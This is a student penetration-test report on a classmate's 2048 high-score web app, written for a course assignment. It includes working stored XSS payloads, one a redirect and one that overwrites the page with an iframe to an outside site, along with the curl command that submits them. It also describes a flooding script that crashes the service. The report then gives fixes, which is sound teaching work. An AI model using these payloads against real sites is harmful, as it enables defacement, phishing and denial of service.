






by Stephen Panaro
The goal of this project is to penetration test a fellow student's 2048 GameCenter. 2048 GameCenter is a web application developed to meet the requirements of COMP20 Assignment 4. In short, the GameCenter accepts, stores and displays high scores from a 2048 game. It provides an API to submit and retrieve scores for a specific user and also serves a web page displaying the high scores in the GameCenter.
I was assigned to test Siddhartha Prasad's implementation, hosted at http://ancient-crag-7837.herokuapp.com/
First "black box" testing was performed. This testing is performed from the perspective of a malicious hacker who does not have legitimate access to any of the systems or source code being attacked. First, common attack vectors were tried, including script injection.
Next "white box" testing performed. This testing is performed by reviewing source code and application systems to look for potential weaknesses. Any insecurities that are discovered this way are then confirmed by using them against the actual application.
Two types of security vulnerabilities were discovered in the security review of this application. First, there are vulnerabilities that arise from putting too much faith in user input to the system being what it should be. As a result, a malicious attacker could use the service to do anything from displaying funny YouTube videos to hosting a phishing site to steal credentials. Second there are vulnerabilities that exploit the services poor ability to handle a lot of data. These vulnerabilities are less serious but could still cause the service to be unavailable to users, possibly resulting in a loss in users over time.
This issue was essentially found for me as Ming attacked Siddhartha's page before I got to it by inserting:
<script>
window.location = "https://www.youtube.com/watch?v=b4810hS8weQ";
</script>
into one of the username fields by POSTing to /submit.json. Since this code redirects immediately to a Muppets' YouTube video, I was unable to easily view Siddhartha's leaderboard to see if my intrusion attempts were succeeding.
To circumvent this I inserted my own script:
<script>
$('head').append('<link rel="stylesheet" href="http://www.eecs.tufts.edu/~spanar01/lol.css">');
document.body.innerHTML = '<div id="content"><iframe width="100%" height="100%" frameborder="0"
src="http://www.eecs.tufts.edu/~spanar01/parser.html"></iframe></div>';
</script>
using curl:
$ curl --data "username=<script>...<script>&score=10000000&grid=x" http://ancient-crag-7837.herokuapp.com/submit.json
By submitting with a higher score than Ming's hack I ensured that my code would be executed before his redirect. I used this opportunity to replace the contents of <body> with an iframe pointing to a website that I control. I also inserted a link to a css file into the <head> of the document to make the iframe take up the whole page.
For now my website simply displays Siddhartha's scoreboard with offending javascript (like Ming's) stripped, but in the future it could display any page, as exemplified below.
 I found this vulnerability by writing a script that repeatedly POSTs a large amount of information (~1kB) to the /submit.json route. Running ~4 threads of this in parallel works for a while, but eventually crashes. This gives a 503 error (Service unavailable) on all endpoints, as seen below.
I found this vulnerability as a side-effect of vulnerability 2. In the process of trying to fill up the Mongo database, I POSTed many scores with the same user. When trying to view the /scores.json endpoint for this user, the request timed out after 30 seconds with a 503 error. According to the Heroku documentation, 30 seconds is the maximum amount of time a request has to complete.
Additionally, this also took down the / route. Both of these are likely caused by the use of .toArray() when querying Mongo because the toArray() method iterates through every matching document in the database.
Note that the /submit.json route still works and the /scores.json route still works for other users.
This vulnerability can be resolved by limiting the number of results returned from Mongo. A database re-architecting may be required to still display the scores in sorted order. This could potentially be accomplished by including a new unique and sortable key in each document or by adding a secondary index to allow easier querying based on score and or user. Maybe having the GameCenter only save the latest score for any given user/score combination would help.
Although this application has several weak points, all of them can be easily resolved, in the short term. The script injection vulnerability will only take a few lines of code and a quick fix to the other two would be limiting the number of scores for a given user in the database. In the long term a more robust database model will provide the security (against the second two issues) and the scalability needed for an application as popular as 2048. One further improvement would be limiting submissions to the API from trusted domains, in an effort to increase the validity of the high score leaderboard.
With some work, this could become a successful and popular application.